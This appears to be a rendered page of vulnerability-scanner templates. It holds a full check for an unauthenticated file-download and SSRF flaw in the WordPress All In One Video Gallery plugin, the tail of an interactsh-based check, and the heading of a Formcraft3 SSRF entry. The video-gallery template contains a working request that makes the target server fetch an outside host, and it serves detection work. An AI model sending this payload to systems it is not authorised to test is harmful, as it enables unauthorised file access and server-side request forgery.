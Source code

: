 - part - interactsh_protocol
- words
  1. http

**Type - word**

- part - interactsh_request
- words
  1. ShibbolethIdp

---

# All In One Video Gallery Plugin - Unauthenticated Arbitrary File Download & SSRF vulnerability

## Description

- Unauthenticated Arbitrary File Download & SSRF vulnerability in WordPress All In One Video Gallery Plugin (versions \<= 2.6.0).

- tags - cve2022,wp-plugin,unauth,ssrf,wpscan,cve,wordpress,wp,all-in-one-video-gallery

## Requests

### Step - 1

```
@timeout: 10s
GET /index.php/video/?dl={{base64('http://interact.sh/')}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

---

# Formcraft3 \<3.8.28 - Server-Side Request Forgery

## Description
